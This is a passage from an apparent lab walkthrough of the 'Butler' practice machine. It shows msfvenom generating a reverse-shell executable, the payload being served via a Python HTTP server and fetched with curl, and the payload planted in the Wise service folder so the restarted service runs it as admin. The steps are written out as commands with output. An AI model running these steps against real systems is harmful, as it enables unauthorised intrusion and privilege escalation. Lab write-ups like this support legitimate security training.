 We create a reverse shell with `msfvenom` as shown below. LHOST and LPORT are
the IP and port of the listener on our attack machine.

```
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.5 LPORT=7777 -f exe > Wise.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes


┌──(kali㉿kali)-[~]
└─$ mv Wise.exe ./Capstone/Butler

c:\Users\butler\Downloads>curl http://10.0.2.5/Wise.exe -o Wise.exe
curl http://10.0.2.5/Wise.exe -o Wise.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  7168  100  7168    0     0   307k      0 --:--:-- --:--:-- --:--:--  350k
```

We then place it in a folder from which we want to serve the files to the victim
machine via a Pythons HTTP server.

```
┌──(kali㉿kali)-[~/Capstone/Butler]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.0.2.80 - - [29/Jun/2025 15:42:13] "GET /Wise.exe HTTP/1.1" 200 -
```

The last line above indicates that we have downloaded the reverse shell with
`curl`:

```
c:\Users\butler\Downloads>curl http://10.0.2.5/Wise.exe -o Wise.exe
curl http://10.0.2.5/Wise.exe -o Wise.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  7168  100  7168    0     0   307k      0 --:--:-- --:--:-- --:--:--  350k
```

**Note to myself:** Next time, download the file to the correct folder right
away. Moving files with long folder names from the command line is annoying!

```
c:\Users\butler\Downloads>move Wise.exe c:\"Program Files (x86)"\Wise\ 
```

Now we create the listener on port 7777 of our attack machine with `nc -nvlp
7777`. Then we stop and restart the `WiseBootAssistant` service as follows,
which will start the reverse shell with admin privileges instead of the actual
service:

```
c:\Program Files (x86)\Wise>sc stop WiseBootAssistant
sc stop WiseBootAssistant

SERVICE_NAME: WiseBootAssistant 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 3  STOP_PENDING 
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x3
        WAIT_HINT          : 0x1388

```